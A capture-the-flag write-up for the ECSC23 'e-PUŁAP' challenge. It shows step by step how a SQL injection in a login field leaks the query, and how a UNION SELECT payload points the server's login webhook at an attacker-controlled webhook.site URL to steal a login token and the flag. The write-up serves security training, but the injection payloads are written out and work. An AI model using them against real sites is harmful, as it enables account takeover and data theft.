 # e-PUŁAP

We are given an URL to a suspicous website:
![](./images/firefox_9BDORge69q.png)

To login, we only have to pass the citizen nickname.

![](./images/firefox_2WIRnOAHco.png)

Initial idea is to check for SQL injection. Very surprisingly, the website throws an error when specifying `'` as the username.

This is helpful as it leaks the query:
```sql
SELECT username, webhook_login_url FROM users WHERE username = "???"
```

When using `' or 1=1 --` as the username, we get another error:
`error:Could not resolve host: chat.evil-corporation.private`

This suggests that the website makes a request to url from `webhook_login_url`. We can try to override this URL:
```
' union select 'a' as username, 'https://webhook.site/???' as webhook_login_url --
```

Indeed, we receive a request with following message:

```
Twój link do logowania do strony sieciowej e-PUŁAP to https://e-pulap.ecsc23.hack.cert.pl/login.php?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYSIsImV4cCI6MTY5MDIzNTg2MywiaXNzIjoibG9jYWxob3N0IiwiaWF0IjoxNjkwMjMyMjYzfQ.6B7JN1Tg7nnuXjGkHonPPZVRAr_Tp5GlkOWt8tqI7KE
```

This leads to a page with multiple images.

For example a very cool raport cover:

![Alt text](./images/okladka.png)

And the flag!

`ecsc23{paswordless_is_the_future!}`